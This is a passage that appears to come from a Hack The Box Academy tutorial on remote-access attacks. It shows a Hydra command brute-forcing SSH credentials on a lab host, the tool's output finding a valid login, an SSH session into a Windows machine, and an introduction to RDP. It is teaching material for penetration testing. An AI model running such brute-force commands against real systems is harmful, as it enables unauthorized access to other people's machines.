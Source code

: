 ### **Hydra - SSH**

We can use a tool such as `Hydra` to brute force SSH. This is covered in-depth in the [Login Brute Forcing](https://academy.hackthebox.com/course/preview/login-brute-forcing) module.

```
th1nyunb0y@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions.

```
th1nyunb0y@htb[/htb]$ ssh user@10.129.42.197

The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.

user@10.129.42.197's password: ********

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

user@WINSRV C:\Users\user>

```

---

# **Remote Desktop Protocol (RDP)**

Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization. The Remote Desktop Protocol defines two participants for a connection: a so-called terminal server, on which the actual work takes place, and a terminal client, via which the terminal server is remotely controlled. In addition to the exchange of image, sound, keyboard, and pointing device, the RDP can also print documents of the terminal server on a printer connected to the terminal client or allow access to storage media available there. Technically, the RDP is an application layer protocol in the IP stack and can use TCP and UDP for data transmission. The protocol is used by various official Microsoft apps, but it is also used in some third-party solutions.
